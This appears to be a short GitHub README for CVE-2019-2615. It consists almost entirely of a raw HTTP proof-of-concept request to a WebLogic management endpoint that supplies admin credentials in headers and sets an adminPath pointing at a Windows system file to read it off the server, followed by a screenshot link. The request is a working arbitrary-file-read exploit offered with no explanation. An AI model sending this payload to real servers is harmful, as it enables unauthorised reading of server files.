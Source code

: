 # CVE-2019-2615

GET /bea_wls_management_internal2/wl_management HTTP/1.1      
Host: 192.168.5.137:7001      
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0    
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8     
Accept-Language: en-US,en;q=0.5         
Accept-Encoding: gzip, deflate      
Connection: close     
username:weblogic    
password:admin123456     
wl_request_type:wl_jsp_refresh_request    
adminPath:c:\\windows\win.ini    
Upgrade-Insecure-Requests: 1    


![image](https://github.com/chiaifan/CVE-2019-2615/blob/master/cve-2019-2615.png)

